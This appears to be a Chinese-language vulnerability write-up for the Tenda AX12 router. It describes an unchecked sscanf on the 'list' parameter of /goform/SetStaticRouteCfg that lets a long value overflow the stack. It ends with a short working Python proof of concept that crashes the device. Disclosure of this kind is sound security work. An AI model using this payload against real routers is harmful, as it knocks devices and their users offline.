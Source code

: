 # 漏洞描述

设备：Tenda-AX12 V22.03.01.21_CN(https://www.tenda.com.cn/download/detail-3237.html)

漏洞类型：栈溢出

攻击效果：拒绝服务

# 漏洞成因

该漏洞为发生在`sub_42E328`函数中的栈溢出漏洞，该函数处理`/goform/SetStaticRouteCfg`下的post请求

首先，该函数调用了`sub_42E030`函数

![image-20220209190513500](image/1.png)

`sub_42E030`函数中：

![image-20220209190531902](image/2.png)

v3直接来源于http数据包中的list参数，随后直接调用sscanf函数对list进行切割，而在这一过程中没用任何的长度限制与安全检查

由此攻击者可以通过一串长list造成栈溢出，实现拒绝服务攻击

# POC

拒绝服务的poc：

```python
import requests

url = "http://192.168.0.1/goform/SetStaticRouteCfg"
list_data = 'a'*0x1000 + '~'

r = requests.post(url, data={'list': list_data})
print(r.content)
```

